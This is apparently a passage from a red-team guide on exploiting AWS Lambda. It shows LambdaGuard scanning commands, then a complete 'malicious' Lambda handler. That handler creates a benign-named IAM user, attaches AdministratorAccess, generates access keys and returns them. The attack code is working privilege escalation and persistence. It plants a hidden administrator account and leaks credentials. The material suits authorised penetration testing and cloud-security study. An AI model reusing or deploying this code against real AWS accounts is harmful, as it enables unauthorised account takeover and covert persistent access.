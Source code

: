 ### AWS Lambda Exploitation

AWS Lambda functions often have excessive IAM permissions that can be exploited:

#### LambdaGuard: Lambda Security Analysis

```bash
# Install LambdaGuard
pip install lambdaguard

# Scan Lambda functions
lambdaguard --profile red-team --out lambda-assessment

# Review findings
cat lambda-assessment/report.html
```

#### Lambda Privilege Escalation

If you have the ability to modify a Lambda function:

```python
# Malicious Lambda code for privilege escalation
import boto3
import json
import os

def lambda_handler(event, context):
    # Create a privileged IAM user
    iam = boto3.client('iam')
    
    try:
        # Create admin user
        iam.create_user(UserName='security_service')
        
        # Attach administrator policy
        iam.attach_user_policy(
            UserName='security_service',
            PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
        )
        
        # Create access key
        response = iam.create_access_key(UserName='security_service')
        
        credentials = {
            'AccessKeyId': response['AccessKey']['AccessKeyId'],
            'SecretAccessKey': response['AccessKey']['SecretAccessKey']
        }
        
        print(json.dumps(credentials))
        return credentials
        
    except Exception as e:
        print(e)
        return {
            'statusCode': 500,
            'body': str(e)
        }
```
